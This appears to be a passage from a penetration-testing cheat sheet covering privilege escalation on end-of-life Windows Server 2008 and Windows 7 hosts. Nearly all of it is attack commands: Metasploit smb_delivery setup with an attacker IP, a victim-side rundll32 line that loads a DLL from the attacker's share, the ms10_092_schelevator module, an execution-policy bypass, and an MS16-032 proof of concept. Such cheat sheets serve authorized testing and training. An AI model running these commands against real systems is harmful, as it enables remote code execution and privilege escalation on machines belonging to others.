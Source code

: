
## 8. End of Life Systems

### Windows Server 2008/2008 R2

#### Enumeration
```cmd
# Check patch level
wmic qfe

# Run Sherlock for vulnerabilities
Set-ExecutionPolicy bypass -Scope process
Import-Module .\Sherlock.ps1
Find-AllVulns
```

#### Metasploit Exploitation
```cmd
# Search for exploit
msf6 > search 2010-3338

# Set up SMB delivery
msf6 exploit(windows/smb/smb_delivery) > set target 0
msf6 exploit(windows/smb/smb_delivery) > set lhost <Attacker_IP>
msf6 exploit(windows/smb/smb_delivery) > set lport <Port>
msf6 exploit(windows/smb/smb_delivery) > set SRVHOST <Attacker_IP>
msf6 exploit(windows/smb/smb_delivery) > exploit

# On victim
rundll32.exe \\<Attacker_IP>\<share>\test.dll,0

# Privilege escalation
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION <ID>
msf6 exploit(windows/local/ms10_092_schelevator) > exploit
```

### Windows 7

#### Windows Exploit Suggester
```bash
# Download and setup dependencies
sudo python2.7 windows-exploit-suggester.py --update

# Run against systeminfo
python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt
```

#### MS16-032 PowerShell PoC
```powershell
# Step 1: Bypass execution policy
Set-ExecutionPolicy bypass -scope process

# Step 2: Execute exploit
Import-Module .\MS16-032_poc.ps1
Invoke-MS16-032
```

---
